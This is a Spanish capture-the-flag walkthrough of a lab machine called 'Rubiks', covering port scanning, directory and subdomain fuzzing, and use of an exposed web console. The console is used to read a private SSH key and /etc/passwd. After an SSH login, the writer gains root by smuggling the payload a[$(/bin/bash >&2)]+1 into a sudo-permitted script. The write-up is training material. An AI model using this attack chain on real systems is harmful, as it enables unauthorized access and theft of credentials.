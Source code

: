 # MAQUINA RUBIKS

Lo primero que tendremos que hacer será realizar un escaneo de puertos a la máquina víctima usando nmap:

```shell
nmap -p- -sS -sC -sV -vvv --min-rate 5000 -Pn 172.17.0.2
```

![NMAP](https://github.com/Isma-yo/photos/blob/main/Rubiks/foto.JPG)

Observamos que estan abiertos el puerto 80 y el 22. Vamos a ver el contenido del puerto 80:

![WEB](https://github.com/Isma-yo/photos/blob/main/Rubiks/foto2.JPG)

Para poder visualizar la pagina web deberemos de añadir ese dominio al fichero /etc/hosts:

```shell
127.0.0.1       localhost
127.0.1.1       kali
172.17.0.2      rubikcube.dl
# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

Si ahora intentamos acceder veremos que si podemos ver el contenido de la web (cuidado, si entramos por HTTPS no podremos, debe ser por HTTP):

![WEB2](https://github.com/Isma-yo/photos/blob/main/Rubiks/foto3.JPG)

Lo siguiente que debremos de hacer sera investigar los diferentes apartados que hay y ver si podemos encontrar algo en el código fuente de alguna de las paginas. No encontramos nada fuera de lo comun, por lo que continuaremos realizando fuzzing utilizando la herramienta gobuster que nos permite listar directorios que a simple vista parecen ocultos:

```shell
gobuster dir -u http://rubikcube.dl -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
```

![FUZZ](https://github.com/Isma-yo/photos/blob/main/Rubiks/foto4.JPG)

Ha encontrado un directorio con el nombre administration, vamos a ver que hay en el:

![ADMI](https://github.com/Isma-yo/photos/blob/main/Rubiks/foto5.JPG)

Si navegamos por las diferentes pestañas veremos que hay una con nombre Configuraciones, y dentro de esta pagina aparece un apartado Console, donde puede ser que podamos ejecutar código:

![CON](https://github.com/Isma-yo/photos/blob/main/Rubiks/foto6.JPG)

![ERR](https://github.com/Isma-yo/photos/blob/main/Rubiks/foto7.JPG)

Vaya, vemos que nos da un error, por aqui no es entonces. Sabiendo que tenemos un dominio, vamos a intentar descubrir si existen subdominios utilizando el comando wfuzz:

```shell
wfuzz -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://rubikcube.dl" -H "Host: FUZZ.rubikcube.dl" --hl 9
```

![SUBDO](https://github.com/Isma-yo/photos/blob/main/Rubiks/foto8.JPG)

Vemos que nos ha encontrado un subdominio con nombre administration, vamos a añadirlo al fichero /etc/hosts para ver que hay:

```shell
127.0.0.1       localhost
127.0.1.1       kali
172.17.0.2      rubikcube.dl administration.rubikcube.dl
# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

Es la misma página que hemos encontrado antes, vamos a probar si por casualidad podemos entrar al apartado que antes no podiamos:

![SAME](https://github.com/Isma-yo/photos/blob/main/Rubiks/foto9.JPG)

Ahora si podemos ejecutar comandos genial, ademas nos dice abajo que deberemos de codificar el comando antes de enviarlo. Para codificar comandos podemos utilizar la herramienta de CyberChef:

https://gchq.github.io/CyberChef/

Como no sabemos en que algoritmo debemos codificar los comandos para que funcionen probaremos primero con los algoritmos mas comunes en estos casos: Base64 y Base32.

Si probamos con Base64 vemos que no nos saca nada, sin embargo, si probamos con Base32 la cosa ya cambia.

![CYBER](https://github.com/Isma-yo/photos/blob/main/Rubiks/foto10.JPG)

![UPS](https://github.com/Isma-yo/photos/blob/main/Rubiks/foto11.JPG)

Ademas, gracias a poner la opcion -a a la hora de hacer el ls estamos viendo los archivos ocultos que hay dentro del directorio, donde podemos destacar ese archivo .id_rsa. Vamos a ver si podemos leer su contenido con el comando cat:

![CYBER2](https://github.com/Isma-yo/photos/blob/main/Rubiks/foto12.JPG)

![NICE](https://github.com/Isma-yo/photos/blob/main/Rubiks/foto13.JPG)

Ole, nos ha dejado leerlo, ahora solo necesitamos saber de que usuario puede ser esa clave. Si hemos podido leer el fichero .id_rsa porque no probamos a leer el fichero /etc/passwd para encontrar el usuario...?

![CASI](https://github.com/Isma-yo/photos/blob/main/Rubiks/foto14.JPG)

![YES](https://github.com/Isma-yo/photos/blob/main/Rubiks/foto15.JPG)

Hay un usuario luisillo que puede interesarnos, vamos a intentar conectarnos por SSH utilizando este usuario y la clave publica de antes, ya que hay que recordar que el puerto 22  estaba abierto.

Antes de conectarnos tendremos que meter el contenido del fichero .id_rsa en un fichero en nuestra maquina atacante y darle los permisos 600 para que a la hora de hacer la conexion no haya errores.

```shell
chmod 600 id_rsa
```

```shell
ssh -i id_rsa luisillo@172.17.0.2
```

![IN](https://github.com/Isma-yo/photos/blob/main/Rubiks/foto16.JPG)

Estamos dentro, pero la terminal se ve un tanto rara, vamos a tratarla con el siguiente comando:

```shell
script /dev/null -c bash
```

Ahora si, ya podemos ponernos a investigar para ver de que modo se puede escalar. No encontramos nada raro en los directorios comunes, por lo que vamos a ejecutar el comando sudo -l para ver que podemos ejecutar como sudo.

Y observamos que podemos ejecutar /bin/cube como cualquier usuario y sin contraseña. Si lo ejecutamos veremos que nos pide introducir un parametro, asi que vamos a probar escalar privilegios aprovechandonos de esto:

```shell
a[$(/bin/bash >&2)]+1
```

![ROOT](https://github.com/Isma-yo/photos/blob/main/Rubiks/foto17.JPG)

Ha funcionado! Ya somos root!
